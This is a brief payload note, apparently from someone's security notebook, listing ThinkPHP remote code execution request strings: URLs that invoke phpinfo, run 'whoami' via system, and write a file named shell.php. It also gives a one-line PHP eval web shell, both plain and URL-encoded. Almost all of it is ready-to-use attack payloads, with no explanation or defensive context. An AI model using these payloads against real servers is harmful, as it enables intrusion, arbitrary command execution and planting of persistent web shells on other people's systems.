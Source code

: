 ```
/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100
index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
写入文件
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=加你要写入的文件内容url编码

<?php @eval($_POST['shell']);?>
%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%73%68%65%6c%6c%27%5d%29%3b%3f%3e

```
![2b7d9362d358890b8ed9db6a4c819686.png](../../_resources/2b7d9362d358890b8ed9db6a4c819686.png)
